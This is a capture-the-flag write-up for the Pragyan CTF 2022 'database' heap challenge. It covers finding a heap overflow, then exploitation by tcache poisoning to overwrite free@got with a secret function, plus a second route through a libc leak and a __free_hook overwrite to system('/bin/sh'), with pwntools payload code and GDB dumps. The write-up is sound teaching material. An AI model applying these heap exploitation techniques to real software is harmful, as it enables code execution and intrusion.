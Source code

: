 # Pragyan CTF 2022 - Database

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [database.zip](database.zip)

There will be 3 files in zip:
- database
- ld-2.27.so
- libc-2.27.so

Download and extract, then use `pwninit` to patch file. After done, we start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file database
database: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=ea160318b25c1dc13c8efa64734a4ee03f502630, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all defences:

```
$ checksec database
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that just `RELRO` is off, so we can overwrite anything we want to any @got. Finally, let's use ghidra to decompile the file.

There are several file but we notice there is a function called `secret`. The `secret` function will give us flag when we execute it:

![secret.png](images/secret.png)

At first, I didn't check it deeper so I attacked unsorted bin and then abuse tcache link list to get the flag. You can read the exploit code [here](solve_1.py)

Back to main(), we can see that there are 4 functions called `print_items`, `insert_item`, `update_item` and `delete_item`. The first function `print_items` will check if the `len`, a global variable, is equal to 0 or not. If not, print out the number of bytes in that chunk with the size saved in `database` too.

The second function is `insert_item` which just simply take the length, then malloc with that length ask us to input data to chunk and save the size also the pointer to `database`.

The third function is `update_item` which will ask us to input new length for chunk without free the old chunk and malloc new chunk --> **Heap Overflow**

The last function is `delete_item` which will free() the chunk and remove the size also the pointer to chunk in `database` so we don't have use after free bug here.

That's all we can find. Let's move on the next part: Brainstorming!

# 2. Brainstorming

### Way 1

With the first solve, I first create a large chunk and free it, that chunk will go to unsorted bin and contain libc main arena address. I just use `show_items` and get that address, then calculate the libc base address. 

Then I create 2 small chunk and free all of them. I abused tcache link list by overwriting the forward pointer into `__free_hook` and then malloc again with the same size. With the second malloc, I write the address of system libc to `__free_hook` so when we free a chunk contain string `/bin/sh` will execute system("/bin/sh")

### Way 2

With this way, I was making writeup while thinking about the exploitation. We will first create 2 small chunk and free them, then abuse tcache link list by overwriting forward pointer with some free@got.

Next, we malloc 2 chunk with the same size and with the second malloc, we now control that free@got. Just simply write the address of secret() function to the free@got and we will get flag when we run free() again.

- Summary:
  1. Attack tcache

# 3. Exploit

Before we start, I wrote these functions for convinient exploit:

<details>
<summary>Code snippet</summary>
<p>

```
def insert(length, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string you want to save => ', data)

def update(index, length, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())
    p.sendlineafter(b'length of string => ', '{}'.format(length).encode())
    p.sendafter(b'string => ', data)

def remove(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', '{}'.format(index).encode())

def show():
    p.sendlineafter(b'choice => ', b'1')
```

</p>

And now, let's start!

### Attack tcache

First, we will malloc 4 small chunk:

```
insert(0x10, b'0'*0x10)    # Control the chunk below
insert(0x10, b'1'*0x10)    # Remove second
insert(0x10, b'2'*0x10)    # Remove first
insert(0x10, b'3'*0x10)    # Avoid heap consolidation
```

Then just simply free chunk index 2 and 1:

```
remove(2)
remove(1)
```

Check in GDB and we can see that 2 chunk goes into tcache:

![tcache_check.png](images/tcache_check.png)

Let's look how these 2 chunks look like:

```
gef➤  x/20xg 0x000055dc28dcf250
0x55dc28dcf250:    0x0000000000000000    0x0000000000000021    <-- Chunk index 0
0x55dc28dcf260:    0x3030303030303030    0x3030303030303030
0x55dc28dcf270:    0x0000000000000000    0x0000000000000021    <-- Chunk index 1
0x55dc28dcf280:    0x000055dc28dcf2a0    0x000055dc28dcf010
0x55dc28dcf290:    0x0000000000000000    0x0000000000000021    <-- Chunk index 2
0x55dc28dcf2a0:    0x0000000000000000    0x000055dc28dcf010
0x55dc28dcf2b0:    0x0000000000000000    0x0000000000000021    <-- Chunk index 3
0x55dc28dcf2c0:    0x3333333333333333    0x3333333333333333
0x55dc28dcf2d0:    0x0000000000000000    0x0000000000020d31
0x55dc28dcf2e0:    0x0000000000000000    0x0000000000000000
```

We can see the forward pointer in the chunk index 1. Now just `update_item` for chunk index 0 to a bigger size to change that forward pointer into address of free@got:

```
payload = b'0'*0x10
payload += p64(0)
payload += p64(0x21)
payload += p64(exe.got['free'])
update(0, 0x50, payload)
```

And then we just malloc 2 chunk with the same size 0x10:

```
insert(0x10, b'1'*0x10)
insert(0x10, b'2'*0x10)
```

Running script and we check the `database` to get the new chunk address (Address changed):

```
gef➤  x/10xg &data_base
0x56132f201d80 <data_base>:       0x0000000000000050    0x00005613303dd260
0x56132f201d90 <data_base+16>:    0x0000000000000010    0x00005613303dd280
0x56132f201da0 <data_base+32>:    0x0000000000000010    0x000056132f201cc8
0x56132f201db0 <data_base+48>:    0x0000000000000010    0x00005613303dd2c0
0x56132f201dc0 <data_base+64>:    0x0000000000000000    0x0000000000000000

gef➤  x/xg 0x000056132f201cc8
0x56132f201cc8 <free@got.plt>:	0x3232323232323232
```

So the new chunk address is still remain as the previous one except the chunk index 2 `0x000056132f201cc8`, it's the address of free@got. So for the second insert() of the code above, we will change data to the address of secret(). The code above change as follows:

```
insert(0x10, b'1'*0x10)
insert(0x10, p64(exe.sym['secret']))
```

After we successfully change free@got, just simply run free() and we will get the flag:

```
remove(0)
```

Full code 1: [solve_1.py](solve_1.py)
Full code 2: [solve_2.py](solve_2.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{Ch4Ng3_1T_t0_M4x1Mum}`